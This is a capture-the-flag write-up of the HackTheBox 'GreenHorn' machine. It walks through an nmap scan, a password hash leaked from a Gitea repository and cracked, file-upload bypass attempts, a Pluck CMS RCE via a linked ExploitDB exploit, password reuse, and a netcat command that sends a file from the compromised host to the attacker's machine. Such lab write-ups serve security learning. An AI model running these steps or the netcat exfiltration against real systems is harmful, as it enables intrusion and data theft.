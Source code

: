This was an easy box but took me longer than expected to crack.

Started off with an NMAP scan

```diff
nmap -p- -A -T4 10.10.11.25

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=62f2fcf1176f2db0; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=97S-jdG8v4soGuIvlAtrVnm-RCw6MTcyMjI3NDAzNDYwOTMxMDQ2Nw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 17:27:14 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=6dc3dd530f506673; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Aiz2dT_8egztQ4XLhngm2kmm3W46MTcyMjI3NDA0MTAwMDgxMzI3OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 17:27:21 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/29%Time=66A7D0F2%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,1530,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=62f2fcf1176f2db0;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=97S-jdG8v4soGuIvlAtrVnm-RCw6MTcyMjI3NDAzNDYwOTMxMDQ2Nw;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2017:27:14\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1BD,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nAllow:\x20
SF:HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,\x20private,\x20mu
SF:st-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_like_gitea=6dc3dd530
SF:f506673;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csr
SF:f=Aiz2dT_8egztQ4XLhngm2kmm3W46MTcyMjI3NDA0MTAwMDgxMzI3OQ;\x20Path=/;\x2
SF:0Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAM
SF:EORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2017:27:21\x20GMT\r\nCon
SF:tent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnectio
SF:n:\x20close\r\n\r\n400\x20Bad\x20Request");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/29%OT=22%CT=1%CU=44223%PV=Y%DS=2%DC=T%G=Y%TM=66A7
OS:D161%P=x86_64-pc-linux-gnu)SEQ(SP=F8%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=F8%GCD=2%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   164.65 ms 10.10.14.1
2   165.29 ms 10.10.11.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1984.66 seconds
```
Firstly add the IP of the box to /etc/hosts and map it to greenhorn.htb

Now, There are two ports hosting websites, port 80 and 3000. I initially focused on the main port and navigated to http://greenhorn.htb. It is hosting a Pluck CMS (version: 4.7.18). Upon further exploring this site, we find two endpoints login.php and admin.php. I tried to access admin.php but was redirected to login.php asking to log in. I hit a road block here.

So, now lets focus on http://greenhorn.htb:3000. It is hosting Gitea, a DevOps platform. Further exploring the site we can find GreenAdmin/GreenHorn with all the source code of the main website. We can find the source code of admin.php and login.php, how the login is handled using cookies and other technologies. 

In the login.php page we can find a placeholder $ww for password and we can also see that SHA512 hashing is used for passwords. Further exploring the directory we find a pass.php in data/settings path. We can find the SHA512 hash og the password.

After dehashing the obtained hash we get a password "iloveyou1". Now try to login at login.php with this password and you will be given access to admin.php. Which is used to manage the whole website. 

Now in the admin portal there is a way to upload files. I tried to exploit this to gain RCE by uploading a PHP reverse shell. But sadly the website has measure to counter this. If the file extension has commonly used php extensions in it then it is appended with a .txt extension, nullifying the .php extension. I tried to proceed by adding a null byte(%00 and 0x00) to the end of the .php extension. Now the file is getting uploaded without a .txt file extension but still the file cannot be executed on the server side, everytime I try to run the file by clicking on it, it prompts a download. 
![alt text](/assets/image1.png)

After many more failed attempts, I turned to exploitDB and luckily Pluck(version: 4.7.18) is vulnerable to RCE as I expected but to exploit this we had to upload a .zip file with the reverse shell in it rather than directly uploading the reverse shell. I used the the exploit posted on exploitDB (https://www.exploit-db.com/exploits/51592) and Bingo!! Got a shell. 

![alt text](/assets/image.png)
![alt text](/assets/image2.png)

Now off to user.txt. Navigating to /home/junior I found the user.txt with another PDF file, "Using OpenVAS.pdf". When I tried to cat the user.txt, I got a permission denied error. Only root and junior had permission to access both these files. Now this is where I got stuck for a long time. I tried a variety of privilege escalation methodologies with no success. I was frustrated and I just randomly thought of using the previously obtained password "iloveyou1" as junior's password, it worked T.T

![alt text](/assets/image3.png)


Now I wanted to read the contents of the PDF. But I had no provisions to do so on the shell so I thought of using netcat to transfer it to my host machine where I could analyse it. 

Syntax for File transfer on the shell(sender)
```diff
nc -w 3 10.10.14.109 12345 < 'Using OpenVAS.pdf'

```
Syntax for File transfer on the host(receiver)
```diff
nc -lp 12345 > output.pdf
```

Analysing the PDF we can see that there is a password for root mention in the file but it is pixelated. I tried out many online tools to dipixelate the pdf but none worked. Then came across a tool named Depix(https://github.com/spipm/Depix) from a blog online. 
![alt text](/assets/image4.png)

To use Depix let's first convert the pdf to an image
```diff
pdfimages output.pdf pix
```

Now to use Depix
![alt text](/assets/image5.png)
![alt text](/assets/image6.png)

The password for root is "sidefromsidetheothersidesidefromsidetheotherside"
![alt text](/assets/image7.png)


Done and Dusted!!